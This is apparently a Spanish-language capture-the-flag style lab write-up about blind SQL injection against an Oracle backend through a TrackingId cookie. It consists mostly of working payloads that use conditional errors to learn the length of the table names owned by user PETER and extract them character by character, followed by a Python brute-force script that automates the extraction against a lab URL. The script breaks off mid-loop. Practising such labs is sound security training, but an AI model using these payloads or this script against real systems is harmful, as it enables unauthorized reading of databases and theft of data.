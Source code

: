 Para `identificar` las `tablas` cuyo propietario es `PETER`, primero necesitamos obtener la `longitud` de estas `tablas` y para eso usamos este `payload`

```
Cookie: TrackingId=AVC3s45wGMdxye6i'||(select case when (length((select listagg(table_name, ' ') within group (order by table_name) from all_tables where owner = 'PETER')) > 1) then to_char(1/0) else null end from dual)||'; session=s9osfPyAvF5PKgpGMVedpIzes2eqKXSc
```

`Obtenemos` que la `longitud` es de `14 caracteres`

```
Cookie: TrackingId=AVC3s45wGMdxye6i'||(select case when (length((select listagg(table_name, ' ') within group (order by table_name) from all_tables where owner = 'PETER')) = 14) then to_char(1/0) else null end from dual)||'; session=s9osfPyAvF5PKgpGMVedpIzes2eqKXSc
```

Vamos a usar ahora este otro `payload` para `obtener` los `caracteres`

```
Cookie: TrackingId=C5PhDxyLUgYK5wqP'||(select case when (substr((select listagg(table_name, ' ') within group (order by table_name) from all_tables where owner = 'PETER'), 1, 1) = 'a') then to_char(1/0) else null end from dual)||'; session=kozeaHyWxCxfjMUuZubvmHN0cIIi9ZTX
```

Este `script` de python `itera` sobre el `payload` anterior y nos `devuelve` el `nombre` de las `tablas` que tiene el usuario propietario `PETER`

```
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo ...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

url = "https://0a03001f0321a894846b408000610088.web-security-academy.net/"
characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))

def makeRequest():
    output = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Output")

    with open("output.txt", "w") as f:
        for position in range(1, 15):
            for character in characters:
                cookies = {
                    'TrackingId': "C5PhDxyLUgYK5wqP'||(select case when (substr((select listagg(table_name, ' ') within group (order by table_name) from all_tables where owner = 'PETER'), %d, 1) = '%s') then to_char(1/0) else null end from dual)||'" % (position, character),
                    'session': "BMvtH2Wf9tGi7WdeVufBPzLwygoHxxPD"
                }

                p1.status(cookies['TrackingId'][:150])

                r = requests.get(url, cookies=cookies)
```